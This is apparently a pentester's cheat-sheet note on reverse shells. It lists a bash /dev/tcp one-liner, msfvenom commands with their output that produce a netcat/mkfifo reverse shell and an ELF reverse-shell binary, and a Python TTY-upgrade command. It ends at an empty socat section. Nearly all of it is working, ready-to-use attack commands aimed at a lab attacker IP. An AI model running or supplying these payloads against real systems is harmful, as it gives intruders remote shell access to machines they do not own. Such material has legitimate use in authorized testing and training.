 ### One-liner reverse shell
For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- With `python`
	  
	  ```bash
	  python -c 'import pty; pty.spawn("/bin/bash")'
	  ```
	- With `socat`
	  ````